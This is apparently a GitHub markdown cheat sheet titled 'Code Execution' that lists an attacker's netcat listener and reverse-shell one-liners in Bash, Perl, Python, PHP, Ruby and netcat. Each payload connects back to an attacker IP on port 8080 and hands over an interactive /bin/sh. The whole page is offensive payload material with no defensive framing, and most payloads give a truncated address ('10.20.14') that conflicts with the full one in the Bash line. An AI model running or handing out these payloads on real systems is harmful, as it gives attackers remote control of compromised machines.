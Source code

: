 # Code Execution

## Attacker Listening
```cmd
nc -vv -l -p 8080
```

## Payloads
- BASH
```BASH
bash -i >& /dev/tcp/10.20.14.203/8080 0>&1
```
- PERL
```PERL
perl -e 'use Socket;$i="10.20.14";$p=8080;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
- Python
```Python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.20.14",8080));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
- PHP
```PHP
php -r '$sock=fsockopen("10.20.14",8080);exec("/bin/sh -i <&3 >&3 2>&3");'
```
- Ruby 
```Ruby
ruby -rsocket -e'f=TCPSocket.open("10.20.14",8080).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
- Netcat 
```cmd
nc -e /bin/sh 10.20.14 8080
```
